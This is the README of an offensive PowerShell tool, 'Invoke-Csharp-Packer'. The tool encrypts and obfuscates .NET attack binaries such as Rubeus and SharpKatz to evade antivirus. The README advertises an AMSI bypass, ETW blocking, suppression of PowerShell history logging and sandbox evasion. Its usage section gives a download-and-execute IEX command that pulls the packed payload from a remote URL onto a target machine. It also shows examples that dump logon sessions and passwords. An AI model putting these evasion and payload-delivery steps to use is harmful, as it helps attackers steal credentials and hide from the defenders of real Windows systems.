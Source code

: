 ### Invoke-Csharp-Packer v2.0
--------------------------------------
'Invoke-Csharp-Packer' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.

    _Examples with a (C#) .NET executable file stored locally_  
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```

   _Examples with a (C#) .NET executable file stored on a remote web server_  
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...
``` 
   Example with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
   Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
